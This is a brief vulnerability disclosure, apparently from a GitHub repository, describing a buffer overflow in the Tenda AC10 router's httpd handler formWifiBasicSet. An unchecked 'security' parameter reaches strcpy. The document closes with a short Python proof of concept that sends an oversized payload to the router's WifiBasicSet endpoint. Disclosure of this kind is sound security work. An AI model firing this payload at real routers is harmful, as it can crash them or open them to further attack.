


# buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/formWifiBasicSet

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:




get value from security ,and if all parameters are not set, get into else



then call strcpy, cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/WifiBasicSet"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'security': payload})
``` 
